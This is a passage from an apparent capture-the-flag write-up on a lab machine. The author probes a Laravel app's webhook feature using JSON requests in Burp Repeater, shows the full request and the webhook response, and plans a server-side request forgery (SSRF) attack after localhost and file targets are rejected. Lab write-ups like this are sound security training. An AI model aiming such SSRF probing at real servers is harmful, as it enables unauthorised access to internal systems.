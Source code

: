 I started playing with sending different payloads to the application. I found out I could send it json instead of a URL-encoded form. This made it easier to read and modify in Burp Repeater.

```http
POST /webhook HTTP/1.1
Host: target.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 224
Origin: http://target.htb
Connection: close
Referer: http://target.htb/
Cookie: XSRF-TOKEN=eyJpdiI6ImFsOEk3M21rVHVuTU8yRkwrc1JSeHc9PSIsInZhbHVlIjoieVBGWlc1WVBiVUFKdjV2MWRqQUorYWNxd0wwaFMwQUQ2RTFzRG9iSDJjb0lmUWJVS3dVa2RUZmtiUXBIUW85ckpZUUJVMGFPQXdERFFuaUR1SW1Mam5WUDhGSTNxdjIzWFhQVUZGcXExc2dsamJYdXhha0JBUmpXekFuR0tDN3YiLCJtYWMiOiJiMDdmMmNkMDM1ZGExMzM3OGUwMmJjNmFjNzA1NDYxNWYyYzkwOTIyNWRiZDkxZGU3M2ViY2JkM2MwNTg0MDIyIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6Ilk4M05WQWFmNVJSMVJoc2txNSt6Q0E9PSIsInZhbHVlIjoiZFVzOFAweStjMm9ENHZnL3VBQkMvZ1RLeVphTVovNW9PSFplYnpQeTBuTjBRKzlPRkQyb213dVN3bEhRWXNSemFqR1k1TXU0YW1ZRXhKZk85WEJmcVR4ZXZiVjVnNkR6b0Rwdno1aWI4dmI2UkQyVXhYa0JIMzBDUXlRcG54N2EiLCJtYWMiOiJkN2Q3YmE0NGFhNTRhN2YyNWFmZTQ4OWU3YTYyNzY5NjY5N2RlMzYzMGUxN2U4YzMzMGZiNjU5MzQ3ZWZmODZlIiwidGFnIjoiIn0%3D
Upgrade-Insecure-Requests: 1

{
	"_token": "6RWanPgljj9laRaM3gHG9xNHPgibNdgtqUeN0EDO",
	"webhookUrl": "http://10.10.14.6:8000/payload",
	"monitoredUrl": "http://10.10.14.6/monitored",
	"frequency": "* * * * *",
	"onlyError": 0,
	"action": "Test"
}
```

I also saw that if the monitored website was up, the content was sent to the webhook.

```json
{
  "webhookUrl":"http:\/\/10.10.14.6:8000\/payload",
  "monitoredUrl":"http:\/\/10.10.14.6\/monitored",
  "health":"up",
  "body":"<html>\n<body>\nTest\n<\/body>\n<\/html>\n",
  "message":"HTTP\/1.0 200 OK",
  "headers":{"Host":"10.10.14.6","Date":"Thu, 05 Jan 2023 11:48:36 GMT","Connection":"close","Content-Type":"text\/html; charset=UTF-8","Content-Length":"35"}
}
```

I thought I could use [Server-Side Request Forgery (SSRF)](https://portswigger.net/web-security/ssrf) to read from the web server.

I tried monitoring things like localhost, and files on the server. But they were rejected.

![Errors](/assets/images/2023/01/Health/Errors.png "Errors")
